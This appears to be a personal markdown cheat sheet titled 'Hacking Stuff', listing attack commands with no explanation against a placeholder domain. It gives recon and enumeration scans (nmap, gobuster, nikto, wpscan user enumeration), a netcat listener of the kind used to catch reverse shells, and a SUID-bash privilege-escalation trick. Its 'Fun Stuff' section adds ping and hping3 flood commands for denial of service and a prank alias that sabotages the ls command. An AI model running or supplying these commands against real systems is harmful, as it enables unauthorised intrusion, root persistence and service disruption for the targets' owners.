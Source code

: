 # Hacking Stuff

------------------------------------------------------- 
                      # RECON STUFF
------------------------------------------------------- 

rustscan -a domain.com

nikto -h domain.com

amass enum -d domain.com

curl -i domain.com
whois domain.com
whatweb domain.com

sudo nmap -sS -sV -T4 domain.com

gobuster dir -u domain.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

gobuster dir -u domain.com -w /usr/share/seclists/

sublist3r -d domain.com


tshark -Y'http.request.method == "GET" -i eth0


wpscan --url domain.com --enumerate u
wpscan --url domain.com --enumerate vp,vt --plugins-detection

nc -lvnp 1234



sudo chmod +s /bin/bash
bash -p




------------------------------------------------------- 
                      # FUN STUFF
------------------------------------------------------- 

ping -s 1300 -f domain.com

hping3 -S -V --flood domain.com

hping3 --traceroute -V -1 domain.com

cat /dev/urandom
alias ls="cat /dev/urandom"


